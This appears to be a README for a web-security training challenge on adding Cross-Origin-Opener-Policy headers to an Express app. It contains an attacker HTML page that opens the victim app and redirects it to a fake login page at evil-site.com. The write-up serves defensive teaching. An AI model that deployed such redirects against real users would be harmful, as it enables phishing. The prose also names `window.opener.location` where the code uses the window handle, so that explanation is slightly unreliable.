 # Challenge 6: Preventing Cross-Origin Exploitation via `window.opener`

## Objective
Implement Cross-Origin Opener Policy (COOP) headers to prevent cross-origin exploitation using the `window.opener` property.

---

## Attack Scenario

### Exploit Description
An attacker opens the victim application (`localhost:3000`) in a new tab using `window.open`. Without proper isolation, the attacker can use the `window.opener.location` property to redirect the victim application to a malicious page.

#### Malicious Page 
The attacker creates a malicious page that opens the victim application and redirects it:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>evil-site.com</title>
    <script>
        function attackVictim() {
            const victim = window.open("http://localhost:3000", "_blank");

            // Redirect the victim application after it opens
            setTimeout(() => {
                victim.location = "http://evil-site.com/fake-login";
            }, 2000); // Wait for the victim page to load
        }
    </script>
</head>
<body>
    <h1>Evil Site</h1>
    <button onclick="attackVictim()">Launch Attack</button>
</body>
</html>
```
(see [`attacks/attack-xs-leak-coop.html`](./attacks/attack-xs-leak-coop.html))

---

### Steps to Reproduce
1. Open the malicious page in a browser.
2. Click the "Launch Attack" button:
   - The victim application (`http://localhost:3000`) will open in a new tab.
   - After 2 seconds, the attacker will use `window.opener.location` to redirect the victim application to `http://evil-site.com/fake-login`.

---

## Protection Steps

### Step 1: Add COOP Headers
The `Cross-Origin-Opener-Policy` header ensures the victim application operates in its own isolated browsing context, preventing `window.opener` from being accessed by the attacker.

#### Add COOP Header in `app.js`:
```javascript
app.use((req, res, next) => {
    res.setHeader('Cross-Origin-Opener-Policy', 'same-origin');
    res.setHeader('Cross-Origin-Embedder-Policy', 'require-corp');
    next();
});

```

### Step 2: Retest the Attack
1. Reload the malicious page and click the "Launch Attack" button.
2. Verify that:
   - The attacker page can no longer manipulate or redirect the victim application.
   - An error appears in the attacker console indicating that `window.opener` is `null` or inaccessible:
     ```plaintext
     Uncaught DOMException: Permission denied to access property 'location' on cross-origin object
     ```

---

## Lessons Learned
1. **COOP Headers**:
   - `Cross-Origin-Opener-Policy: same-origin` isolates the victim application, preventing exploitation via `window.opener`.
   - `same-origin-allow-popups` can be used for backward compatibility during migration.

2. **`window.opener` Risks**:
   - The `window.opener` property allows a malicious page to manipulate or interact with the victim page unless explicitly blocked.
   - Always isolate sensitive applications with COOP.

3. **Defence-in-Depth**:
   - Combine COOP headers with other defences (e.g., CSP) to secure cross-origin interactions comprehensively.

4. **Proactive Design**:
   - Avoid reliance on `window.opener` in application design.
   - Include COOP headers during the development phase.

---

## Key Takeaways
- COOP prevents `window.opener` exploitation by isolating browsing contexts.
- Testing COOP implementation is critical to ensure workflows are not unintentionally broken.
- Use `same-origin-allow-popups` for incremental adoption in legacy applications.

---

## Further Resources
- [XSLeaks - Cross-Origin Opener Policy](https://xsleaks.dev/docs/defenses/opt-in/coop/)
- [Web.dev - Why COOP and COEP Are Important](https://web.dev/articles/why-coop-coep/)
- [Web.dev - Securely hosting user data in modern web applications ](https://web.dev/articles/securely-hosting-user-data)
- [MDN Web Dev - Cross-Origin-Opener-Policy]()https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy

